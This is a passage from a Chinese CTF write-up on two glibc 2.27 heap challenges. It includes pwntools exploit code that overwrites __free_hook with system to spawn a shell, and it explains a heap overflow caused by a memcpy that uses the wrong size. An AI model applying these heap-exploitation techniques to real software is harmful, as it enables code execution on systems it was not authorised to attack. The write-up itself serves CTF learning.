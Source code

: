 ```python
delete(2)
delete(3)

edit(3, p64(free_hook_addr))


add(4, 0x80)  # 4
add(5, 0x80)  # 5 <--> 3
add(6, 0x80)  # 6
edit(6, b'/bin/sh\x00')
edit(5, p64(system_addr))
delete(6)


sh.interactive()

```



## webheap_revenge

```bash
patchelf --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ld-2.27.so --replace-needed libm.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libm.so.6 --replace-needed libc.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6 --replace-needed libgcc_s.so.1 /mnt/f/Downloads/libgcc_s.so.1 --replace-needed libstdc++.so.6 /mnt/f/Downloads/libstdc++.so.6.0.25 webheap_revenge
```

这题没想到 IDA 打开之后很清晰，比 `webheap` 清晰很多，一眼就能看出来结构。

![image-20221108152026453](https://cdn.ova.moe/img/image-20221108152026453.png)

对比可以发现，`delete` 的 UAF 已经没了。

但是在 `edit` 里，我们可以发现它进行了一个 `memcpy` 的操作，但是 `chunk_size` 在调试后发现它实际上是我们序列化中 `str` 的大小（准确来说，它是像`malloc`一样 8 字节向上对齐的）而并非我们在 `add` 操作中记录的堆的大小，这就造成可以堆溢出，直接改指针就好。（难点大概就是这个 `v128` 了，不知道它什么时候被赋值了，靠 `gdb` 调出来的）

由于 `add` 的时候只进行了 `malloc` 而没有设置堆内容，所以我们依然可以通过 ub 泄露 `libc`。之后继续打 `free_hook` 即可

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./webheap_revenge'])
elf = ELF('./webheap_revenge')
libc = ELF('/home/nova/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc-2.27.so')
# sh = remote('172.51.65.90',9999)

"""
struct Person {
  std::uint64_t cmd;
  std::uint64_t idx;
  std::uint64_t sz;
  std::string name;
  std::uint64_t nothing;
  NOP_STRUCTURE(Person, cmd, idx, sz, name, nothing);
};
"""

def pack_int(num: int):
    return b'\x82' + p32(num)

```